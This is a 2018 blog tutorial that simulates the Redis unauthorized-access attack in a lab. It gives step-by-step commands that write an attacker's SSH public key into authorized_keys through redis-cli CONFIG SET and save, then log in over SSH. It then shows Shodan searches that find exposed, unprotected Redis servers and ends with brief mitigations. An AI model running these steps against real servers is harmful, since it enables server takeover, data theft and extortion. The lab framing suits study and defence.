









Redis, is an open source, widely popular data structure tool that can be used as an in-memory distributed database, message broker or cache. Since it is designed to be accessed inside trusted environments, it should not be exposed on the Internet. However, some Redis’ are bind to public interface and even has no password authentication protection.

Under certain conditions, if Redis runs with the root account (or not even), attackers can write an SSH public key file to the root account, directly logging on to the victim server through SSH. This may allow hackers to gain server privileges, delete or steal data, or even lead to an encryption extortion, critically endangering normal business services.

The simplified flow of this exploit is:

* Login to a unprotected Redis
* Change it’s backup location to .ssh directory — Write the SSH Keys to new backup location
* Remote connect and login to the target server using SSH key

We should already be familiar how automatic SSH login with private + public keys works.

## Simulation
Now let’s get our feet wet and set up a target machine. We’ll need two machines, they can be real machines, virtual machines, or remote machines (VPS). As long as the attack end is able to ping the target end, we are good.

Environment setup for this example:

* Target Machine: Redis-3.2.11 on Ubuntu
* Attack Machine: Platform you like with Redis (I used Kali)

### Set Up Target Machine:

First, let us set up the target machine with Redis. Download source code by

```
wget http://download.redis.io/releases/redis-3.2.11.tar.gz
```

Extract and build

```
tar xzf redis-3.2.11.tar.gz cd redis-3.2.11 
make
```
After make, we use our favorite editor to open `redis.conf` in `redis-3.2.11` folder. In order to be remotely accessed, we will need to comment out line `bind 127.0.0.1` and disable `protected-mode` as shown below.



Now fire up Redis with the configuration file we just edited. Note that `redis-server` is in `redis-3.2.11/src`.

```
src/redis-server redis.conf
```

So far, we have finished setting up the target server. Additionally, we should also check if we have `.ssh` folder. If not, we should create it for the attack later.

### Attack Machine:

First, make sure we can ping the target. Then, we will generate a private key and public key for SSHing into the target machine later. Run the following command to generate SSH keys and leave passphrase empty.

```
ssh-keygen -t rsa
```

Next, enter the `.ssh` folder. If you are root user, enter `/.ssh`, otherwise `~/.ssh`, then copy the private key in to `temp.txt`.

```
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > temp.txt
```

Some may be wondering that why do we put two blank lines before and after the public key? We will leave that as a mystery for right now if you don’t know :)



Good! So far we have generated a pair a keys, we will need to find a way to smuggle the public key to the Redis server (target machine.)

We are going to use `redis-cli`, the Redis command line interface, to send commands to Redis and read the replies sent by the server directly in the terminal.

Run the following commands in `redis-3.2.11/src` folder. (Or depending where we are, we can always specify the path to the files we use)

```
cat /.ssh/temp.txt | redis-cli -h 203.137.255.255 -x set s-key
```

Here, let’s take a look at the command. We use `-h` flag to specify the remote Redis server IP so that `redis-cli` knows where to connect and send commands. The part after `-x` is saying that we are setting the key in redis named `s-key` with the value in `temp.txt`.



Yea, we have a key with our SSH key sneaked in! Let’s connect to the Redis and play around its configuration. Use `redis-cli` to connect to the Redis server again.



Looking at the above screenshot, we first verify the value of the key `s-key` by using the command `GET s-key`, which is what we want – the public key with two blank lines before and after. Then I tried the command “dir” just to see what it says (kidding). What we actually want to do here is to get the value of “s-key” (SSH public key) stored in the `.ssh` folder so that we can remote SSH login to the target machine whithout having to type the password.

Thus, we will do this:

```
CONFIG GET dir # get your redis directory 
# In the output of above command "/home/xxxx/redis-3.2.11/src" is the directory where redis server is installed. CONFIG SET dir 
/home/xxxx/.ssh # set the backup location to the .ssh folder 
(or) CONFIG SET dir /root/.ssh CONFIG SET dbfilename authorized_keys 
# lastly we back our data containing our "s-key" key-value pair up in the .ssh folder 
save
```

> The authorized_keys file in SSH specifies the SSH keys that can be used for logging into the user account for which the file is configured Source: [ssh.com](https://www.ssh.com/ssh/authorized_keys/)
The screenshot shown above already demonstrates the steps mentioned here.

### Harvest Time
On Attack Machine, try to SSH in the Target Machine using the following command.

```
# command: private key username@server IP 
ssh -i id_rsa username@203.137.255.255
```


YAS! As we can see, we have a successful auto-login with SSH keys! Voila, we have now completed the attack simulation. 😃

(Smiley face actually means that I’m finally almost done writing this up 😂)

At the end of this section, I would like to show what is Redis’s backup file look like.



Notice the unreadable characters? Add “\n\n” before and after the key content was just to be safe and separate it from other “stuff” so that it can be parsed correctly. 👌

## Use Search Engine to find Vulnerable Redis Servers
Alrighty, as I mentioned, we are going to use [Shodan](https://www.shodan.io/) to search servers that has Redis footprint (characteristics).

Let us do a simple search by Redis’ default port.



Looks like we have 75,665 search results. Aaaaaand guess what! Right down there (not shown but we can see it if we scroll down) there are TONS of host that has NO password protection!! 

This vulnerability was found years ago and still countless of machines are opening up themselves in such an easy way for attackers to have fun in there server…

According to Shodan, there are around **56,000 unprotected** Redis instances in 2015.



According to ZoomEye, the distribution of the instances is.


According to ZoomEye, the top ranking countries of these instances are: China, USA, Germany…



Okay, back to the business. So how do we verify if a server is protected using python? It turns out to be fairly simple.

1. Use socket to connect to the target IP
2. Perform a GET request
3. If the server is unprotected, you GET request will succeed; otherwise it will fail



## Mitigation

* Don’t bind to 0.0.0.0
* If you have to, change the default port (6379)
* Set a password (for everything)

Sep 11, 2018 （2018-09-11）

author: Victor Zhu

link: <https://medium.com/@Victor.Z.Zhu/redis-unauthorized-access-vulnerability-simulation-victor-zhu-ac7a71b2e419>